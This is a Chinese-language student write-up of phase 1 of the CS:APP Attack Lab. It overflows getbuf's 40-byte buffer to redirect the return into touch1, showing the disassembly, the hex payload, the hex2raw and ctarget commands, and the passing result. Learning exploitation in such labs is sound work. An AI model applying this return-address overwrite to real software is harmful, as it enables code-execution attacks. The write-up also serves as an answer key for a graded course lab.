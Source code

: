 

## 1.1 phase_1

截取`test`的控制流，在调用完`getbuf`之后，buffer溢出，进而导致函数`getbuf`的返回地址（存储在`test`里面的）被覆盖，而覆盖的内容，就是函数`touch1`的入口地址`0x00000000004017c0`

```c
1 void touch1()
2 {
    3 vlevel = 1; /* Part of validation protocol */
    4 printf("Touch1!: You called touch1()\n");
    5 validate(1);
    6 exit(0);
7 }
```

```shell
(gdb) disas touch1
```

```cpp
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi // "Touch1!: You called touch1()"
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.

```

设计`ans1.txt`里面，前40个字节填充任意，故意在40 字节之后，写入`0x00000000004017c0`

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

使用下面命令，将16进制，转变成我们需要输入的字符串的形式，00 -> 0x30 01 -> 0x31 关于ASCII 字符的转变。

```shell
./hex2raw < ans1.txt  > ans1_raw.txt
./ctarget -q  < ans1_raw.txt
```

结果为，调用成功，改变了test内调用函数 getbuf之后的返回地址。

```shell
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./ctarget -q  < ans1_raw.txt 
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```
